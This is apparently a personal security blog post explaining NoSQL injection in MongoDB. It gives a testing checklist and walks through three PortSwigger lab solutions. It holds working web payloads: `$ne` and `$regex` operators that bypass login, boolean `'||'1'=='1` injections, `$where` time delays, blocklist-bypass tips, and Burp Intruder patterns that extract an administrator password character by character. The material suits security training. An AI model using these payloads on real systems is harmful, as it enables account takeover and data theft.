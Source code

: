 ```yaml
---
layout: post
title: NoSQLi
subtitle: Insert NoSQL query to bypass authentication and retrieve data from the database 
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
---
```


Refer: [OWasp A03:2021](https://owasp.org/Top10/A03_2021-Injection/)

NoSQL injection is similar to SQL injection in that it allows an attacker to manipulate or inject malicious input into a NoSQL query to retrieve, modify, or delete data. However, the key difference lies in the database type and query language.  
* SQLi
  * SQL database (E.g., MariaDB, MySQL, PostgreSQL)
  * Structure Query Language

* NoSQLi
  * Semi-structured database (E.g., MongoDB, CouchDB)
  * JSON-like documents or key-value pairs

### Types of NoSQLi
1. Syntax injection: Attacker injects an unclosed string literal (`'`), to break the query’s logic.
2. Operator injection: Attacker injects NoSQL operator (`$gt`, `$lt`, `$eq`, `$ne`, `$regex`, etc.) into the query, changing the query’s logic to return unintended results or bypass authentication.

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  
  1. **What is the technology stack you're attacking?**  
      * Frontend technologies (e.g., React, Angular)  
      * Backend frameworks and languages (e.g., Node.js, Django)  
      * Web server (e.g., Apache, Nginx)  
      * Database (SQL or NoSQL)  
      * Other middleware, caching, cloud services, and tools that make up the full system  

  2. **What NoSQL DB is being used?**  
      * MongoDB, Amazon DynamoDB, Apache Cassandra, Neo4j, etc.

  3. **Verify injection points:**  
      * URL parameters (`?user=admin&id=123`)  
      * Form fields (e.g., login forms or search boxes)  
      * HTTP headers (e.g., cookies, user-agent, authorization token, X-Forwarded-For, etc.)  

  4. **Test with different operators:** `$eq`, `$ne`, `$gt`, `$gte`, `$lt`, `$lte`, etc.  

  5. **Can you trigger different responses?**  
      * Successful Authentication Bypass  
      * Data Disclosure  
      * Error Messages  
      * Application Behavior Change (e.g., listing additional items, showing admin-only features, etc)  
      * Partial or Conditional Responses (e.g., responses exist if a condition is true and not if false)  
      * Out-of-band (data retrieved from a third party apis)  
      * No Response or Timeout  
      * Second-order Effects (Payloads stored and executed later cause delayed changes or access)  

  6. **Test for login bypass:**(e.g., `{"$ne": ""}`)  

  7. **Test for blind NoSQLi:** (e.g., `username=admin password={"$regex": "^a"}`)  
      * If login behaves differently when varying regex, blindness confirmed  

  8. **Test for errors:** (e.g., `category='\"{;$Foo}\n$Foo \xYZ\0`)  
      * If the server returns an error message or 500 status, error-based injection is possible.

  9. **Test for conditional responses:** (e.g., `category='fizzy' && 1==1 versus category='fizzy' && 1==0`)  
      * See if content or status differs indicating injection logic control.

  10. **Test for conditional errors:** (e.g., `{"$where": "this.username == 'admin' && undefinedFunc()"}`)  
      * An error occurs only if the condition matches.

  11. **Test for time delays:** (e.g., `{"$where": "sleep(5000)"}`)  

  12. **Test for out-of-band interactions**  
      * Inject NoSQL operators that cause the database to make DNS/HTTP requests to an attacker-controlled server via functions or extensions.

  13. **Is there a blocklist?** (e.g., disallowing `$ne`, `$or`, or special symbols)  

  14. **Can we bypass the blocklist?**  
      * Using different encodings (e.g., URL encoding, Unicode)  
      * Exploiting incomplete blocklists that only filter some operators or keywords  
      * Using alternate operator names or synonyms (e.g., `$not` instead of `$ne`)  
      * Taking advantage of application logic errors  
      * Using payloads that do not rely on blocked keywords but still affect query logic (e.g., `$where` with time delays or logic conditions )
</details>

### Lab
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#nosql-injection) to show how this vulnerability can lead to:

#### 1. Detecting NoSQL injection
The product category filter for this specific web application is powered by MongoDB, I utilize NoSQL injection that causes the application to display unreleased products.  
  
Firstly, I capture and modify the `GET /filter?category=(category)` request using Burp Repeater.  
Then testing the vulnerability by using a single quote `'` to break the query and trigger a server error.  
After identifying the vulnerability, I insert boolean/truthy expression payloads to manipulate the server response with Burp Repeater and reveal hidden items.  
  ~~~
  GET /filter?category=Pets '||'1'=='1 or
  GET /filter?category=Pets '||1|| '
  ~~~

#### 2. NoSQL operator injection to bypass authentication  
The login functionality for this specific application is powered by MongoDB. Which can be potentially vulnerable to NoSQL injection using MongoDB operators. Our goal is to log into the application as the administrator user.  
  
To test the operator injection vulnerability, I use Burp Proxy to capture the `login request`, and change the `password parameter value` with MongoDB operators on Burp Repeater
 ~~~
{"username": "user1", "password":{"$ne":"dgdfg"}}
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as user1 with password is not equal to dgdfg.  
 > HTTP/2 302 Found  
 > Location: /my-account?id=user1  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

Now that I know the web application is vulnerable to NoSQL injection, I will try using regex for all common administrator usernames and repeat the same process as the previous step for the password.
 ~~~
 {"username":{"$regex":"adm.*"},"password":{"$ne":""}} 
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as admin9hhcmyfb with password is not equal to blank.  
 > HTTP/2 302 Found  
 > /my-account?id=admin9hhcmyfb  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

{: .box-note}
**Note:** Refer to [MongoDB Documentation](https://www.mongodb.com/docs/php-library/current/crud/query/specify-a-query/) for more details about its operators

#### 3. Exploiting NoSQL injection to extract data 
The user lookup functionality for this instnace is powered by a MongoDB NoSQL database. It is possibly vulnerable to NoSQL injection. Our goal is to extract the password for the administrator user, then log in to their account.
Firstly 
To test the vulnerability, I start off sending a single character with in GET `/user/lookup?user=`
 ~~~
 GET /user/lookup?user=' 
 ~~~
 > Response: The message in the response indicates this is vulnerabile to NoSQLi  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 58  
 > {"message": "There was an error getting user details"}  

Then I modify and send a Boolean expression in Burp Repeater to discover a hidden user, such as "administrator": 
 ~~~
 GET /user/lookup?user=wiener'||'1'=='1 
 ~~~
 > Response: It provides me the available user's information  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 96  
 > {"username": "administrator", "email":"admin@normal-user.net", "role":"administrator"}

Now we have the username, time to figure out thier password. I use Burp Intruder to submit numeric payloads (1–30) and determine that the administrator's password length is 8 by studying the Length of the response: 
 ~~~
 administrator' && this.password.length == §1§ 
 ~~~
![Burp Intruder Response](https://rencybersec.github.io/assets/img/githubpost/NoSQLi_1.png)

After determining the password length, I use Intruder’s Cluster Bomb attack mode to discover each character of the password. The first payload position represents the index (0–7) of each character in the administrator's password, while the second payload position represents the character (a–z) to test at each position. We will reuse the same technique from the previous step, where we analyze the response length to determine which letter appears in the password.
 ~~~
 administrator' && this.password[§0§] == '§a§
 ~~~
